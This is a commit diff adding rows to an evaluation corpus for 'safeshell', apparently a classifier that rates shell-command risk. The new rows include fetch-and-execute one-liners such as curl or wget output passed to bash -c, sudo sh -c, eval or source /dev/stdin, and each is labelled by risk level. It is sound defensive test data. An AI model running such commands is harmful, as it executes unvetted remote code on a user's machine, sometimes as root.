

Before and after one commit to ShahadatTest/safeshell, a TSV file: eval/corpus/commands.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
fix(classify): block run-unseen downloads via eval, sh -c, sh -s and source /dev/stdin

```diff
--- a/eval/corpus/commands.tsv
+++ b/eval/corpus/commands.tsv
+row 282: R3 | bash -c "$(curl -fsSL https://x.sh)"
+row 283: R3 | sh -c "$(wget -qO- https://x.sh)"
+row 284: R4 | sudo sh -c "$(curl -fsSL https://x.sh)"
+row 285: R3 | eval "$(curl -s https://x.sh)"
+row 286: R3 | curl -s https://x.sh | source /dev/stdin
+row 287: R3 | curl --proto "=https" -sSf https://sh.rustup.rs | sh -s -- -y
+row 288: R1 | eval "$(ssh-agent -s)"
+row 289: R1 | bash deploy.sh "$(curl -s ip.me)"
```
Also changed, not shown: 4 other files.
